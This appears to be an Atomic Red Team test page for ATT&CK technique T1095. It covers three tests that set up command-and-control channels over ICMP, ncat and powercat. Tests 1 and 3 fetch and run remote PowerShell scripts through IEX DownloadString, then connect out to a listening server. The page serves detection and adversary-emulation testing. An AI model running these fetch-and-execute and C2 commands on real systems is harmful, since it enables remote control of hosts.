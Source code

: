 # T1095 - Non-Application Layer Protocol

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1095)

<blockquote>Adversaries may use an OSI non-application layer protocol for communication between host and C2 server or among infected hosts within a network. The list of possible protocols is extensive.(Citation: Wikipedia OSI) Specific examples include use of network layer protocols, such as the Internet Control Message Protocol (ICMP), transport layer protocols, such as the User Datagram Protocol (UDP), session layer protocols, such as Socket Secure (SOCKS), as well as redirected/tunneled protocols, such as Serial over LAN (SOL).

ICMP communication between hosts is one example.(Citation: Cisco Synful Knock Evolution) Because ICMP is part of the Internet Protocol Suite, it is required to be implemented by all IP-compatible hosts.(Citation: Microsoft ICMP) However, it is not as commonly monitored as other Internet Protocols such as TCP or UDP and may be used by adversaries to hide communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - ICMP C2](#atomic-test-1---icmp-c2)

- [Atomic Test #2 - Netcat C2](#atomic-test-2---netcat-c2)

- [Atomic Test #3 - Powercat C2](#atomic-test-3---powercat-c2)

<br/>

## Atomic Test #1 - ICMP C2

This will attempt to start C2 Session Using ICMP. For information on how to set up the listener
refer to the following blog: https://www.blackhillsinfosec.com/how-to-c2-over-icmp/

**Supported Platforms:** Windows

**auto_generated_guid:** 0268e63c-e244-42db-bef7-72a9e59fc1fc

#### Inputs:

| Name      | Description                            | Type   | Default Value |
| --------- | -------------------------------------- | ------ | ------------- |
| server_ip | The IP address of the listening server | string | 127.0.0.1     |

#### Attack Commands: Run with `powershell`!

```powershell
IEX (New-Object System.Net.WebClient).Downloadstring('https://raw.githubusercontent.com/samratashok/nishang/c75da7f91fcc356f846e09eab0cfd7f296ebf746/Shells/Invoke-PowerShellIcmp.ps1')
Invoke-PowerShellIcmp -IPAddress #{server_ip}
```

<br/>
<br/>

## Atomic Test #2 - Netcat C2

Start C2 Session Using Ncat
To start the listener on a Linux device, type the following:
nc -l -p <port>

**Supported Platforms:** Windows

**auto_generated_guid:** bcf0d1c1-3f6a-4847-b1c9-7ed4ea321f37

#### Inputs:

| Name        | Description                                           | Type    | Default Value                                                                        |
| ----------- | ----------------------------------------------------- | ------- | ------------------------------------------------------------------------------------ |
| server_port | The port for the C2 connection                        | integer | 80                                                                                   |
| ncat_exe    | The location of ncat.exe                              | path    | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1095&#92;nmap-7.80&#92;ncat.exe |
| ncat_path   | The folder path of ncat.exe                           | path    | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1095                            |
| server_ip   | The IP address or domain name of the listening server | string  | 127.0.0.1                                                                            |

#### Attack Commands: Run with `powershell`!

```powershell
cmd /c "#{ncat_exe}" #{server_ip} #{server_port}
```

#### Dependencies: Run with `powershell`!

##### Description: ncat.exe must be available at specified location (#{ncat_exe})

##### Check Prereq Commands:

```powershell
if( Test-Path "#{ncat_exe}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory -Force -Path "#{ncat_path}" | Out-Null
$parentpath = Split-Path (Split-Path "#{ncat_exe}"); $zippath = "$parentpath\nmap.zip"
Invoke-WebRequest  "https://nmap.org/dist/nmap-7.80-win32.zip" -OutFile "$zippath"
  Expand-Archive $zippath $parentpath -Force
  $unzipPath = Join-Path $parentPath "nmap-7.80"
if( $null -eq (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | ?{$_.DisplayName -like "Microsoft Visual C++*"}) ) {
  Start-Process (Join-Path $unzipPath "vcredist_x86.exe")
}
```

<br/>
<br/>

## Atomic Test #3 - Powercat C2

Start C2 Session Using Powercat
To start the listener on a Linux device, type the following:
nc -l -p <port>

**Supported Platforms:** Windows

**auto_generated_guid:** 3e0e0e7f-6aa2-4a61-b61d-526c2cc9330e

#### Inputs:

| Name        | Description                                           | Type    | Default Value |
| ----------- | ----------------------------------------------------- | ------- | ------------- |
| server_ip   | The IP address or domain name of the listening server | string  | 127.0.0.1     |
| server_port | The port for the C2 connection                        | integer | 80            |

#### Attack Commands: Run with `powershell`!

```powershell
IEX (New-Object System.Net.Webclient).Downloadstring('https://raw.githubusercontent.com/besimorhino/powercat/ff755efeb2abc3f02fa0640cd01b87c4a59d6bb5/powercat.ps1')
powercat -c #{server_ip} -p #{server_port}
```

<br/>
